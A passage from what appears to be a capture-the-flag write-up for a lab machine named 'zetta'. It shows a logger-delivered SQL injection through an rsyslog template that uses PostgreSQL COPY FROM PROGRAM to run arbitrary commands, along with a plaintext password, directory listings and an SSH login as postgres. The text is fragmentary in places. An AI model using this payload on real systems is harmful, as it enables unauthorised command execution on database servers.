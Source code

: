 ### Problem 4 — Getting Command Execution
[**Authenticated Arbitrary Command Execution on PostgreSQL 9.3 > Latest**
*PostgreSQL from 9.3 to latest has functionality allowing the database superuser & users in the ‘pg_read_server_files’…*medium.com](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)



## Final payload:

    logger -p local7.info "', DEFAULT) ; DROP TABLE IF EXISTS poc; CREATE TABLE poc(cmd_output text) ; COPY poc FROM PROGRAM \$\$COMMAND_TO_EXECUTE\$\$ ; COPY (SELECT * FROM poc) TO \$\$/tmp/poc\$\$; --"

![Command Injection through rsyslog template SQL injection](https://cdn-images-1.medium.com/max/4396/1*rOVvn-SJdvSkiW0fgwG1xA.png)*Command Injection through rsyslog template SQL injection*

sup3rs3cur3p4ass@postgres

    roy@zetta:/var/lib/postgresql$ ls -la
    total 20
    drwxr-xr-x  4 postgres postgres 4096 Jul 27 06:57 .
    drwxr-xr-x 27 root     root     4096 Aug 27 05:39 ..
    drwxr-xr-x  3 postgres postgres 4096 Jul 27 03:07 11
    lrwxrwxrwx  1 root     root        9 Jul 27 06:57 .bash_history -> /dev/null
    -rw-------  1 postgres postgres  744 Jul 27 07:01 .psql_history
    drwx------  2 postgres postgres 4096 Jul 27 06:40 .ssh

asd

![](https://cdn-images-1.medium.com/max/3200/1*uZcDoPkr1QvyILBCr9yW9Q.png)

    root@zetta:~# date
    Thu 24 Oct 2019 03:00:58 AM EDT

    # ssh postgres@10.10.10.156 -i .ssh/id_rsa
    Linux zetta 4.19.0–5-amd64 #1 SMP Debian 4.19.37–5+deb10u1 (2019–07–19) x86_64
    postgres@zetta:~$ whoami
    postgres
    postgres@zetta:~$

Hope you enjoyed the write-up, thank you for reading 👏